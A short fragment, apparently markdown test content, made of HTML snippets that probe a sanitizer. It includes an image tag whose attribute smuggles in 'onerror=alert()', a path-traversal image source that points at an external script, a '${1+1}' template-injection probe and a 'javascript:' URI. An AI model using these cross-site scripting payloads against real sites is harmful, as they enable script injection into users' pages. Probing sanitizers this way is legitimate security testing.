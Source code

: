 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img id="meu" src="" tabindex='\b%a0\r\nonerror=alert()'></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
